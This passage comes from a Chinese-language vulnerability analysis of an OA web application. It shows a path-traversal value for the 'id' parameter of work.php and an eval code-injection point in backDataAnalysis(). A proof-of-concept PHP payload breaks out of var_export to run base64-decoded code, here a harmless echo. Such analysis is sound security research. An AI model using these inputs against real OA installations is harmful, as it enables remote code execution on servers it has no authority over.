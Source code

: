 现在已经可以解决关于 json\_file 文件读取的问题了，接着在 work.php 中传入 id 的参数为

```plain
../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

程序读取完 json 文件后，执行到 AllVariableBusinessProcessing 类的 backDataAnalysis()

[![](assets/1702520965-dd5ccb37b9d1fe1b70fb0e34efc47c03.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231213102424-bba8da6a-995e-1.jpg)

[![](assets/1702520965-ba849c96e435bf5009e1929ad1295c93.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231213102445-c7b15f62-995e-1.jpg)

该方法下存在 eval 函数可以执行代码，而且$variableData 的值是可控的

```plain
$variableData = $BackData["dataAnalysis"];
$variableData = json_decode($variableData, true);
$variableData = eval "return " . iconv("UTF-8", "GBK", var_export($variableData, true) . ";");
```

至于 dataAnalysis 为什么是这种格式，下面会详细讲到，这里先给出一个 demo

```plain
$c = 'ZWNobyAxMjM0Ow==';        //base64 解码后为 echo 1234;
$d = 'ZWNobyAxMjM7';            //base64 解码后为 echo 123;

$a = array(
  'a'=>'eval(base64_decode($d))',
);


$b = array(
  'a'=>'b',eval(base64_decode($c)));/*',
);
```
